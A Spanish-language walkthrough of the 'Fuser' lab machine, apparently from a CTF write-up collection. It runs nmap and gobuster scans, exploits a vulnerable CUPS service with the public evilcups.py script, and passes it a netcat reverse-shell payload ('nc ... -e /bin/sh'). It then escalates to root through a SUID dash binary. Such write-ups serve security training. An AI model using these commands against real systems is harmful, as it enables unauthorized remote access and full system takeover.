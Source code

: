 ```yaml
---
description: '🔍 Dificultad: Muy Fácil'
---
```


# Fuser

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.129
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.129 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH,** el **puerto 631** perteneciente al **servicio IPP** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80,631 -v 192.168.1.129
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80. No contiene nada relevante.

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Revisamos el puerto 631. Descubrimos que es un **CUPS** y su versión es vulnerable en la que podemos hacer una **Reverse Shell**.

{% @github-files/github-code-block url="https://github.com/IppSec/evil-cups/blob/main/evilcups.py" %}

Ejecutamos y nos ponemos en escucha.

```bash
nc -nlvp 443
python3 evilcups.py 192.168.1.56 192.168.1.129 "nc 192.168.1.56 443 -e /bin/sh"
```

Buscamos directorios.

```bash
gobuster dir -u http://192.168.1.129:631 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml
```

Vemos que hay un directorio llamado **/printers** por lo que ahí se verá las impresoras.

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Obtenermos ya la shell.

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos SUDO.&#x20;

Tenemos permisos **SUID** sobre el binario **dash**.

{% embed url="https://gtfobins.github.io/gtfobins/dash/#suid" %}

```bash
/usr/bin/dash -p
```

Ya somos **root**.
